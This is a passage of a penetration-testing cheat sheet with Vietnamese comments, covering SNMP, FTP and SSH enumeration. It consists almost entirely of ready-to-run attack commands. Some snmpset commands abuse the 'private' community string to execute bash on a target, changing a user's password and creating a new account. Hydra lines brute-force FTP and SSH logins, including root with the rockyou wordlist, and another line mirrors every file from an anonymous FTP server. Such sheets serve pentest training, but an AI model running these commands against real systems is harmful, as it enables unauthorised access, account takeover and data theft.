 ```bash
# SNMP List
snmpwalk -v 2c -c public 192.168.198.149 > output.txt
```

```
# Thay đổi mật khẩu user <username>
snmpset -v1 -c private <target_ip> \
  .1.3.6.1.4.1.8072.1.3.2.2.1.2.201 s "change_password" \
  .1.3.6.1.4.1.8072.1.3.2.2.1.3.201 s "/bin/bash" \
  .1.3.6.1.4.1.8072.1.3.2.2.1.4.201 s "-c 'echo username:newpassword | chpasswd'" \
  .1.3.6.1.4.1.8072.1.3.2.2.1.5.201 i 5 \
  .1.3.6.1.4.1.8072.1.3.2.2.1.6.201 i 1

# Tạo người dùng mới
snmpset -v1 -c private <target_ip> \
  .1.3.6.1.4.1.8072.1.3.2.2.1.2.200 s "create_user" \
  .1.3.6.1.4.1.8072.1.3.2.2.1.3.200 s "/bin/bash" \
  .1.3.6.1.4.1.8072.1.3.2.2.1.4.200 s "-c 'useradd -m -p $(openssl passwd -1 password123) newuser'" \
  .1.3.6.1.4.1.8072.1.3.2.2.1.5.200 i 5 \
  .1.3.6.1.4.1.8072.1.3.2.2.1.6.200 i 1
```

### 1.2.4. FTP Enumeration

```bash
# Kiểm tra FTP banner
nmap -p 21 --script=ftp-banner 192.168.1.1

# Kiểm tra anonymous login
nmap -p 21 --script=ftp-anon 192.168.1.1
ftp 192.168.1.1  # Username: anonymous, Password: anonymous

# Brute force đăng nhập FTP
hydra -L users.txt -P passwords.txt ftp://192.168.1.1

# Tải tất cả files từ FTP server
wget -m --no-passive ftp://anonymous:anonymous@192.168.1.1
```

### 1.2.5. SSH Enumeration

```bash
# Lấy SSH banner và key exchange
nmap -p 22 --script=ssh-hostkey,ssh2-enum-algos 192.168.1.1

# Enum SSH authentication methods
nmap -p 22 --script=ssh-auth-methods --script-args="ssh.user=root" 192.168.1.1

# Kiểm tra weak ciphers
nmap -p 22 --script=ssh-audit 192.168.1.1

# Brute force SSH
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.1
```
